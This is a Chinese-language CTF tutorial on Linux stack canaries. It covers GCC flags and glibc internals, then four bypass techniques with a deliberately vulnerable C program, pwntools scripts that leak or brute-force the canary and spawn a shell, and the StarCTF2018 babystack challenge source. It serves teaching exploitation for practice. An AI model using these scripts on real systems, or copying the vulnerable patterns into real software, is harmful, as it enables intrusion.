





# Canary

## 简介

Canary 的意思是金丝雀，来源于英国矿井工人用来探查井下气体是否有毒的金丝雀笼子。工人们每次下井都会带上一只金丝雀。如果井下的气体有毒，金丝雀由于对毒性敏感就会停止鸣叫甚至死亡，从而使工人们得到预警。
栈溢出保护是一种缓冲区溢出攻击缓解手段，当函数存在缓冲区溢出攻击漏洞时，攻击者可以覆盖栈上的返回地址来让 shellcode 能够得到执行。当启用栈保护后，函数开始执行的时候会先往栈底插入 cookie 信息，当函数真正返回的时候会验证 cookie 信息是否合法 (栈帧销毁前测试该值是否被改变)，如果不合法就停止程序运行 (栈溢出发生)。攻击者在覆盖返回地址的时候往往也会将 cookie 信息给覆盖掉，导致栈保护检查失败而阻止 shellcode 的执行，避免漏洞利用成功。在 Linux 中我们将 cookie 信息称为 Canary。
Canary 不管是实现还是设计思想都比较简单高效，就是插入一个值在 stack overflow 发生的高危区域的尾部。当函数返回之时检测 Canary 的值是否经过了改变，以此来判断 stack/buffer overflow 是否发生。
Canary 与 Windows 下的 GS 保护都是防止栈溢出的有效手段，它的出现很大程度上防止了栈溢出的出现，并且由于它几乎并不消耗系统资源，所以现在成了 Linux 下保护机制的标配。

## canary原理

### 在GCC中使用canary

```shell
    -fstack-protector 启用保护，不过只为局部变量中含有数组的函数插入保护
    -fstack-protector-all 启用保护，为所有函数插入保护
    -fstack-protector-strong
    -fstack-protector-explicit 只对有明确 stack_protect attribute 的函数开启保护
    -fno-stack-protector 禁用保护
```

### Canary原理



进入函数后和函数结束前的两个操作：

```asm
    mov    rax, qword ptr fs:[0x28]
    mov    qword ptr [rbp - 8], rax
```

进入函数后(函数序言部分取fs寄存器0x28处的值)会向栈中插入canary值

```asm
    mov    rdx,QWORD PTR [rbp-0x8]
    xor    rdx,QWORD PTR fs:0x28
    je     0x4005d7 <main+65>
    call   0x400460 <__stack_chk_fail@plt>
```

函数返回前，将该值取出并于`fs:0x28`的值进行异或。根据结果判断是否执行`__stack_chk_fail@plt`（结果为0，则canary未被修改，函数正常返回）
如果 Canary 已经被非法修改，此时程序流程会走到`__stack_chk_fail`。`__stack_chk_fail` 也是位于 glibc 中的函数，默认情况下经过 ELF 的延迟绑定(意味着可以通过劫持`__stack_chk_fail`的got值劫持流程或者利用`__stack_chk_fail`泄露内容，定义如下:

```c++
    eglibc-2.19/debug/stack_chk_fail.c

    void __attribute__ ((noreturn)) __stack_chk_fail (void)
    {
    __fortify_fail ("stack smashing detected");
    }

    void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
    {
    /* The loop is added only to keep gcc happy.  */
    while (1)
        __libc_message (2, "*** %s ***: %s terminated\n",
                        msg, __libc_argv[0] ?: "<unknown>");
    }
```

对于linux来说，fs 寄存器实际指向的是当前栈的 TLS 结构，fs:0x28 指向的正是 stack_guard

```c++
    typedef struct
    {
    void *tcb;        /* Pointer to the TCB.  Not necessarily the
                        thread descriptor used by libpthread.  */
    dtv_t *dtv;
    void *self;       /* Pointer to the thread descriptor.  */
    int multiple_threads;
    uintptr_t sysinfo;
    uintptr_t stack_guard;
    ...
    } tcbhead_t;
```

如果存在溢出可以覆盖位于 TLS 中保存的 Canary 值那么就可以实现绕过保护机制。
事实上，TLS 中的值由函数 security_init 进行初始化。

```c++
    static void
    security_init (void)
    {
    // _dl_random的值在进入这个函数的时候就已经由kernel写入.
    // glibc直接使用了_dl_random的值并没有给赋值
    // 如果不采用这种模式, glibc也可以自己产生随机数

    //将_dl_random的最后一个字节设置为0x0
    uintptr_t stack_chk_guard = _dl_setup_stack_chk_guard (_dl_random);

    // 设置Canary的值到TLS中
    THREAD_SET_STACK_GUARD (stack_chk_guard);

    _dl_random = NULL;
    }

    //THREAD_SET_STACK_GUARD宏用于设置TLS
    #define THREAD_SET_STACK_GUARD(value) \
    THREAD_SETMEM (THREAD_SELF, header.stack_guard, value)
```

## Canary 绕过技术

### 泄露栈中的canary

Canary 设计为以字节 \x00 结尾，本意是为了保证 Canary 可以截断字符串。 泄露栈中的 Canary 的思路是覆盖 Canary 的低字节，来打印出剩余的 Canary 部分。 这种利用方式需要存在合适的输出函数，并且可能需要第一溢出泄露 Canary，之后再次溢出控制执行流程。
例，

```c++
    // ex2.c
    #include <stdio.h>
    #include <unistd.h>
    #include <stdlib.h>
    #include <string.h>
    void getshell(void) {
        system("/bin/sh");
    }
    void init() {
        setbuf(stdin, NULL);
        setbuf(stdout, NULL);
        setbuf(stderr, NULL);
    }
    void vuln() {
        char buf[100];
        for(int i=0;i<2;i++){
            read(0, buf, 0x200);
            printf(buf);
        }
    }
    int main(void) {
        init();
        puts("Hello Hacker!");
        vuln();
        return 0;
    }
```

编译：



通过覆盖canary的最后一个字节，然后将其打印出来构造ROP链填充到相应位置：




可以计算偏移为`0xf4c-0xee8=0x64`

```python
    from pwn import *

    p = process('./ex2')

    back_door = ELF('./ex2').sym['getshell']

    p.recv()

    payload1 = 'A'*0x64 + 'B' # 填充到canary处，B用于填充canary低字节的'\x00'
    p.send(payload1)
    p.recvuntil('B')
    canary = u32('\x00'+p.recv(3))
    # canary = u32(p.recv(3))*0x100
    log.info('canary = %#x',canary)

    payload2 = '\x00'*0x64 + p32(canary)
    payload2 = payload2.ljust(0x70+4,'\x00')
    payload2 += p32(back_door)

    p.send(payload2)
    p.recv()
    sleep(1)
    p.interactive()
```



### one-by-one爆破Canary

对于 Canary，虽然每次进程重启后的 Canary 不同 (相比 GS，GS 重启后是相同的)，但是同一个进程中的不同线程的 Canary 是相同的， 并且通过 fork 函数创建的子进程的 Canary 也是相同的，因为 fork 函数会直接拷贝父进程的内存。我们可以利用这样的特点，彻底逐个字节将 Canary 爆破出来。 在著名的 offset2libc 绕过 linux64bit 的所有保护的文章中，作者就是利用这样的方式爆破得到的 Canary:

```python
    print "[+] Brute forcing stack canary "

    start = len(p)
    stop = len(p)+8

    while len(p) < stop:
        for i in xrange(0,256):
            res = send2server(p + chr(i))

            if res != "":
                p = p + chr(i)
                #print "\t[+] Byte found 0x%02x" % i
                break

            if i == 255:
                print "[-] Exploit failed"
                sys.exit(-1)


        canary = p[stop:start-1:-1].encode("hex")
        print "   [+] SSP value is 0x%s" % canary
```

例，`NSCTF 2017-pwn2`

```python
    from pwn import *

    p = process('../Desktop/pwn2')
    conut = 0
    while True:
        conut += 1
        canary = '\x00'
        print '[+] Starting...'
        for i in xrange(1,4):
            flag = i
            for j in xrange(0,256):
                p.sendline('Y')
                p.recv()
                p.sendline('%19$p')
                p.recvuntil('Welcome to the game')
                leak_libc_addr = int(p.recv(11),16)
                p.recv()
                payload = 'A'*16
                payload += canary
                payload += chr(j)
                p.send(payload)
                if("***" != p.recv(3)):
                    canary += chr(j)
                    flag = 0
                    log.info('Find the %dth byte of canary : %#x'%(4-i,j))
                    break
            if flag == i:
                print "[-] Exploit failed"
                break
    log.info('Canary is %#x' %(u32(canary)))
    elf = ELF('/lib/i386-linux-gnu/libc.so.6')
    system_offset = elf.symbols['system']
    binsh_offset = next(elf.search('/bin/sh'))
    system_addr = leak_libc_addr - 0x2EBF0 - 0x1B + system_offset
    binsh_addr = leak_libc_addr - 0x2EBF0 - 0x1B + binsh_offset
    log.info('System address is at %#x, /bin/sh address is at %#x' %(system_addr, binsh_addr))


    payload = 'A'*16
    payload += canary
    payload += 'B'*12
    payload += p32(system_addr)
    payload += p32(0x08048670)
    payload += p32(binsh_addr)

    p.sendline('Y') # [*] Do you love me?
    p.recv()
    p.sendline('A') # [*] Input Your name please:
    p.recv()
    p.send(payload) # [*] Input Your Id:
    sleep(3)
    p.interactive()
```

### 劫持__stack_chk_fail函数

已知 Canary 失败的处理逻辑会进入到 __stack_chk_failed 函数，__stack_chk_failed 函数是一个普通的延迟绑定函数，可以通过修改 GOT 表劫持这个函数。
例，`ZCTF2017 Login`

### 覆盖 TLS 中储存的 Canary 值

已知 Canary 储存在 TLS 中，在函数返回前会使用这个值进行对比。当溢出尺寸较大时，可以同时覆盖栈上储存的 Canary 和 TLS 储存的 Canary 实现绕过。
例，`StarCTF2018 babystack`

[题目源码](https://github.com/sixstars/starctf2018/blob/master/pwn-babystack)

```c++
    #include <errno.h>
    #include <stdio.h>
    #include <pthread.h>
    #include <asm/prctl.h>
    #include <sys/prctl.h>
    #include <string.h>
    #include <stdlib.h>
    #include <unistd.h>

    size_t get_long() {
        char buf[8];
        fgets(buf, 8, stdin);
        return (size_t)atol(buf);
    }
    size_t readn(int fd, char *buf, size_t n) {
        size_t rc;
        size_t nread = 0;
        while (nread < n) {
            rc = read(fd, &buf[nread], n-nread);
            if (rc == -1) {
                if (errno == EAGAIN || errno == EINTR) {
                    continue;
                }
                return -1;
            }
            if (rc == 0) {
                break;
            }
            nread += rc;

        }
        return nread;
    }
    void * start() {
        size_t size;
        char input[0x1000];
        memset(input, 0, 0x1000);
        puts("Welcome to babystack 2018!");
        puts("How many bytes do you want to send?");
        size = get_long();
        if (size > 0x10000) {
            puts("You are greedy!");
            return 0;
        }
        readn(0, input, size);
        puts("It's time to say goodbye.");
        return 0;
    }

    int main() {
        setbuf(stdin, NULL);
        setbuf(stdout, NULL);
        pthread_t t;
        puts("");
        puts(" #   #    ####    #####  ######");
        puts("  # #    #    #     #    #");
        puts("### ###  #          #    #####");
        puts("  # #    #          #    #");
        puts(" #   #   #    #     #    #");
        puts("          ####      #    #");
        puts("");
        pthread_create(&t, NULL, &start, 0);
        if (pthread_join(t, NULL) != 0) {
            puts("exit failure");
            return 1;
        }
        puts("Bye bye");
        return 0;
    }`
```

> gcc -fstack-protector-strong -s -pthread bs.c -o bs -Wl,-z,now,-z,relro
